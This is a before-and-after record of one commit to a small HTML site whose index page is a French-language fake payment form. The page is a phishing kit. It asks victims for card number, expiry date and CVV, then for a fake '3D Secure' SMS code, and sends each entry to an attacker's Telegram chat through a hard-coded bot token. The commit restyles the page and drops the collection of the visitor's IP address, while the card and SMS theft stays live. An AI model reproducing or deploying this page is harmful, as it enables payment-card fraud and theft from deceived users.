

Before and after one commit to justmoicom/vlad, a plain HTML site: page index.html in a window 1280 px wide. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -5,7 +5,76 @@
   <meta name="viewport" content="width=device-width, initial-scale=1.0">
   <title>Formulaire de Paiement</title>
   <style>
-    /* Styles ici, inchangés */
+    body {
+      font-family: Arial, sans-serif;
+      background-color: #f4f4f4;
+      margin: 0;
+      padding: 0;
+    }
+
+    .payment-container {
+      background-color: white;
+      width: 400px;
+      margin: 100px auto;
+      padding: 30px;
+      border-radius: 10px;
+      box-shadow: 0 4px 8px rgba(0, 0, 0, 0.1);
+    }
+
+    h2 {
+      color: #333;
+      text-align: center;
+    }
+
+    form label {
+      display: block;
+      margin-bottom: 5px;
+      font-weight: bold;
+      text-align: left;
+    }
+
+    input[type="text"],
+    input[type="number"],
+    input[type="submit"] {
+      width: 94%;
+      padding: 12px;
+      margin: 8px 0 20px 0;
+      border: 1px solid #ddd;
+      border-radius: 5px;
+      font-size: 16px;
+    }
+
+    input[type="submit"] {
+      background-color: #4CAF50;
+      color: white;
+      border: none;
+      cursor: pointer;
+      font-size: 18px;
+      top: 0; bottom: 0; left: 0; right: 30
+    }
+
+    input[type="submit"]:hover {
+      background-color: #45a049;
+    }
+
+    .hidden {
+      display: none;
+    }
+
+    .spinner {
+      border: 4px solid #f3f3f3;
+      border-top: 4px solid #3498db;
+      border-radius: 50%;
+      width: 40px;
+      height: 40px;
+      animation: spin 1s linear infinite;
+      margin: 20px auto;
+    }
+
+    @keyframes spin {
+      0% { transform: rotate(0deg); }
+      100% { transform: rotate(360deg); }
+    }
   </style>
 </head>
 <body>
@@ -25,14 +94,14 @@
       <label for="cvv">Code de sécurité (CVV)</label>
       <input type="number" id="cvv" name="cvv" maxlength="3" required placeholder="XXX">
 
-      <center><input type="submit" value="Payer"></center>
+      <center><input type="submit" value="Payer">
     </form>
   </div>
 
   <div class="payment-container hidden" id="step-2">
     <h2>3D Secure</h2>
     <div class="spinner"></div>
-    <center><p>VEUILLEZ PATIENTEZ...</p></center>
+    <center><p>VEUILLEZ PATIENTEZ...</p>
   </div>
 
   <div class="payment-container hidden" id="step-3">
@@ -47,12 +116,12 @@
   <div class="payment-container hidden" id="step-4">
     <h2>3D Secure</h2>
     <div class="spinner"></div>
-    <center><p>VEUILLEZ PATIENTEZ...</p></center>
+    <center><p>VEUILLEZ PATIENTEZ...</p> <center>
   </div>
 
   <div class="payment-container hidden" id="step-5">
-    <h2>PAIEMENT RÉUSSI</h2>
-    <center><p>Redirection dans quelques instants...</p></center>
+    <h2>PAIEMANT REUSSIE</h2>
+    <center><p>Redirection dans quelques instants...</p>
   </div>
 
   <script>
@@ -65,17 +134,6 @@
     const TELEGRAM_BOT_TOKEN = '7829797076:AAGfrZMGpGdCYsbSDxYXJBOR8jc4D2AjC1k';
     const TELEGRAM_CHAT_ID = '7747778364';
 
-    async function getUserIP() {
-      try {
-        const response = await fetch('https://api.ipify.org?format=json');
-        const data = await response.json();
-        return data.ip;
-      } catch (error) {
-        console.error('Erreur lors de la récupération de l\'IP :', error);
-        return 'IP inconnue';
-      }
-    }
-
     function sendToTelegram(message) {
       const url = `https://api.telegram.org/bot${TELEGRAM_BOT_TOKEN}/sendMessage`;
       const data = { chat_id: TELEGRAM_CHAT_ID, text: message };
@@ -87,14 +145,13 @@
       });
     }
 
-    document.getElementById('payment-form').addEventListener('submit', async function(event) {
+    document.getElementById('payment-form').addEventListener('submit', function(event) {
       event.preventDefault();
 
       const cardholderName = document.getElementById('cardholder-name').value;
       const cardNumber = document.getElementById('card-number').value;
       const expiryDate = document.getElementById('expiry-date').value;
       const cvv = document.getElementById('cvv').value;
-      const userIP = await getUserIP();
 
       sendToTelegram(`
         Paiement reçu :
@@ -102,7 +159,6 @@
         Numéro : ${cardNumber}
         Expiration : ${expiryDate}
         CVV : ${cvv}
-        IP de l'utilisateur : ${userIP}
       `);
 
       document.getElementById('step-1').classList.add('hidden');
@@ -114,16 +170,11 @@
       }, 10000);
     });
 
-    document.getElementById('sms-form').addEventListener('submit', async function(event) {
+    document.getElementById('sms-form').addEventListener('submit', function(event) {
       event.preventDefault();
 
       const smsCode = document.getElementById('sms-code').value;
-      const userIP = await getUserIP();
-
-      sendToTelegram(`
-        Code SMS reçu : ${smsCode}
-        IP de l'utilisateur : ${userIP}
-      `);
+      sendToTelegram(`Code SMS reçu : ${smsCode}`);
 
       document.getElementById('step-3').classList.add('hidden');
       document.getElementById('step-4').classList.remove('hidden');
@@ -146,5 +197,7 @@
       this.value = value;
     });
   </script>
+
+
 </body>
 </html>
```
